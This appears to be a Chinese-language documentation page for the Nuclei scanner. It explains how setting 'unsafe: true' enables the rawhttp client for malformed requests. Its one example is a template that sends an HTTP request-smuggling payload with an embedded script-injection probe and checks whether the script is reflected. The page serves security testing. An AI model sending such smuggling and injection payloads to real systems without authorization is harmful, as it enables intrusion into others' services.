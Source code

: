 ```yaml
---
title: "不安全的 HTTP"
description: "了解如何在 Nuclei 中使用 rawhttp 或不安全的 HTTP"

---
```


Nuclei 支持 [rawhttp](https://github.com/projectdiscovery/rawhttp) 来实现完全的请求控制和自定义，允许**任何类型的畸形请求**，用于解决 HTTP 请求走私、Host 头注入、带有畸形字符的 CRLF 等问题。

默认情况下，**rawhttp** 库是禁用的，可以通过在请求块中包含 `unsafe: true` 来启用。

以下是使用 `rawhttp` 进行 HTTP 请求走私检测的模板示例。

```yaml
http:
  - raw:
    - |+
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 150
        Transfer-Encoding: chunked

        0

        GET /post?postId=5 HTTP/1.1
        User-Agent: a"/><script>alert(1)</script>
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 5

        x=1
    - |+
        GET /post?postId=5 HTTP/1.1
        Host: {{Hostname}}

    unsafe: true # 启用 rawhttp 客户端
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "<script>alert(1)</script>")'
```
